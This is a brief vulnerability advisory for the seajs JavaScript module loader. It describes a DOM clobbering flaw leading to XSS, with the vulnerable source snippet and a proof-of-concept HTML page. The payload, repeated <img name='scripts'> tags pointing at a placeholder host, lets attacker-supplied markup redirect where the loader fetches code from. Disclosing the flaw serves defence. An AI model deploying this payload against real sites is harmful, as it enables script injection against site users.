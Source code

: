 ## seajs

### Meta

+ Library: seajs
+ Stars: 8.3K
+ Version: v3.0.3
+ Payload: ```<img name="scripts" src="https://xxx.xxx.xxx"><img name="scripts" src="https://xxx.xxx.xxx">```
+ Impact: XSS
+ CVE: N/A
+ Status: N/A
+ Foundby: TheHulk


### Library

https://github.com/seajs/seajs


### Vulnerable Code Snippet

```javascript
// https://github.com/seajs/seajs/blob/master/src/util-path.js#L231-L247
var doc = document
var scripts = doc.scripts

// Recommend to add `seajsnode` id for the `sea.js` script element
var loaderScript = doc.getElementById("seajsnode") ||
	scripts[scripts.length - 1]

function getScriptAbsoluteSrc(node) {
	return node.hasAttribute ? // non-IE6/7
		node.src :
		// see http://msdn.microsoft.com/en-us/library/ms536429(VS.85).aspx
		node.getAttribute("src", 4)
}
loaderPath = getScriptAbsoluteSrc(loaderScript)
// When `sea.js` is inline, set loaderDir to current working directory
loaderDir = dirname(loaderPath || cwd)
```

### PoC
```html

<!--Library-->
<link rel="stylesheet" href="../static/hello/src/style.css">
<script src="../sea-modules/seajs/seajs/3.0.3/sea.js"></script>
<script>
// Set configuration
seajs.config({
  alias: {
    "jquery": "jquery/jquery/1.10.1/jquery.js"
  }
});
seajs.use("examples/hello/1.0.0/main");
</script>
<!--Library-->

<!--Payload-->
<img name="scripts" src="http://localhost:9999">
<img name="scripts" src="http://localhost:9999">
<!--Payload-->
```